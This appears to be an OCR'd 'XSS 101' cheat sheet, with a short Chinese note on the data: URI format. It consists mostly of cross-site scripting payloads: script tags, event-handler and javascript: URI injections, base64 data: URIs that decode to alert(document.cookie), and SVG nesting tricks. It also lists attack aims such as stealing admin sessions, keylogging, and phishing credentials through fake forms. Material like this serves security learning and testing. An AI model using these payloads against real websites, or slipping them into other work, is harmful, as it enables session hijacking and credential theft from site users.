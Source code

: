 XSS 101

<h1>Hello,<script>alert(1)</script>!</h1>

1. With <script> tag
<script>alert(1)</script>

2. With regular HTML tags

2.1 Event-based

<TAG EVENT=alert(1)>
<body onload=alert(1)>
<img src=1 onerror=alert(1)>
<svg onload=alert(1)>
<x onmouseover=alert(1)>

2.2 Resource-based

<TAG RESOURCE=javascript:alert(1)>
<iframe src=javascript:alert(1)>
<object data=javascript:alert(1)>
<script>alert(document.domain)</script>

2.1. Steal an user session on the vulnerable website (including admins)

2.2. Capture the keys pressed by the user

2.3. Deface the page, serving any type of content

2.4. Trick the user into giving his/her credentials by means of a fake HTML form

2.5. Crash the browser (local denial of service)

2.6. Force download of files

2.7. Redirect user's browser to another website where his/her machine can be

compromised by memory exploits

data伪协议的格式是：
data:[<MIME-type>][;charset=<encoding>][;base64],<data>

<script src="data:text/html;base64,YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="></script>
<script src=data:text/html;base64,YWxlcnQoZG9jdW1lbnQuY29va2llKQ==></script>
<script src=data:text/html;,alert(document.cookie)></script>
<script src=data:text/html,alert(document.cookie)></script>
<script src=data:,alert(document.cookie)></script>
<script src="data:text/html;base64,YWxlcnQoMSk="></script>
<script src=data:text/html;base64,YWxlcnQoMSk=></script>
<script src=data:text/html;,alert(1)></script>
<script src=data:text/html,alert(1)></script>
<script src=data:,alert(1)></script>

<body><svg><x><script>alert(1)</script></x></svg></body>
<svg><x><script>alert(1)</x>
<svg><a><script>alert(1)</a>

XSS Cheat Sheet
